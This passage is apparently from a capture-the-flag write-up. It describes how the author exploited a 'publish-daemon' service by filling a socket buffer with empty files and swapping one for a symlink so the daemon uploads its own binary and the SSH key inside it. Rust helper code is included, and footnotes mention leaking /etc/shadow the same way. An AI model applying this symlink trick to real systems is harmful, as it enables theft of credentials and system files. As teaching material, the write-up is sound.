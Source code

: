 Although the maximum `PATH_LENGTH` of a path on Linux is 4096 bytes and the maximum path segment is 255 bytes, I found that the longest path that the cherf webserver would let me look at were filenames up to 40 bytes in length.
s
Our plan is thus this:
1. Put 280 empty files into `~/publish_html`, each with a filename of 40 bytes.
    - Note that for my username, the 28-byte string `/home/arcblroth/public_html/` is prepended to each `fprint`'d path from `publish-daemon`, which is accounted for in the buffer calculations above.
    - Note that at least one of these files needs to have some content in order for `publish-daemon` to actually attempt an upload.[^3]
2. Invoke `publish-daemon` by connecting to `/var/run/publish.sock`.
3. Wait for a really long time (ie 5 minutes) for 278 empty files to upload and fill the UNIX socket buffer.
4. Unlink the 279th file (in `readdir` or `ls -U` order) and replace it with a symlink to `/usr/sbin/publish-daemon`.
5. Wait for `publish-daemon` to upload itself.
6. Profit! (Download the binary, with the SSH key inside of it, from `https://ais-ucla.org/~arcblroth/...`)

In protest of C, I then proceeded to implement these steps in Rust. &gt;w&lt;

```rs
//! common.rs

use anyhow::{Context, Result};
use std::{ffi::OsString, fs::read_dir, path::Path};

pub fn find_publish(base_path: &Path) -> Result<OsString> {
    Ok(read_dir(base_path)?
        .nth(278)
        .context("readdir failed")??
        .file_name())
}
```

```rs
//! mkpwn.rs

use anyhow::Result;
use std::{fs::File, path::Path};

mod common;

fn main() -> Result<()> {
    let args: Vec<String> = std::env::args().collect();
    if args.len() != 2 {
        println!("invalid usage");
        return Ok(());
    }

    let base_path = Path::new(&args[1]);

    for i in 0..280 {
        // "/home/arcblroth/public_html/".len() == 28
        let file_name = format!("a{:0>39}", i);
        File::create(base_path.join(Path::new(&file_name)))?;
    }

    println!("publish: {:?}", common::find_publish(&base_path)?);

    Ok(())
}
```


[^1]: BOL was definitely designed for the 2000s and hasn't been updated since. It takes over a second to load a 20-byte homepage...
[^2]: Note that this idea can work with *any* file readable by `publish-daemon` - we could have leaked `/etc/shadow` with the exact same technique!
[^3]: Note that we can also use this exploit to bypass the 10 MB max directory size check!